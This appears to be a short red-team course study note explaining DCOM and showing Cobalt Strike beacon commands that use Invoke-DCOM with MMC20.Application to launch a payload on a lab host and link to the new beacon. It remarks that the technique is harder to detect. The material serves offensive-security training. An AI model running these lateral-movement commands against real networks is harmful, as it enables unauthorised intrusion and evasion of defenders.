 
DCOM is a programming construct that allows a computer to run programs over the network on a different computer as if the program was running locally. Allows [[COM Objects]] to communicate with each other over the network.



## 🖊️ via Cobalt Strike

Beacon has no built-in capabilities to interact over Distributed Component Object Model (DCOM), so we must use an external tool such as [Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1).  

Usage:

```
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName web.dev.cyberbotic.io -Method MMC20.Application -Command C:\Windows\smb_x64.exe
Completed

beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
[+] established link to child beacon: 10.10.122.30
```

This method allows remote connection executions and is harder to detect.



### ⚠ Opsec




### Properties
---
📆 created   {{14-02-2024}} 14:25
🏷️ tags: #redteam #crto 

---

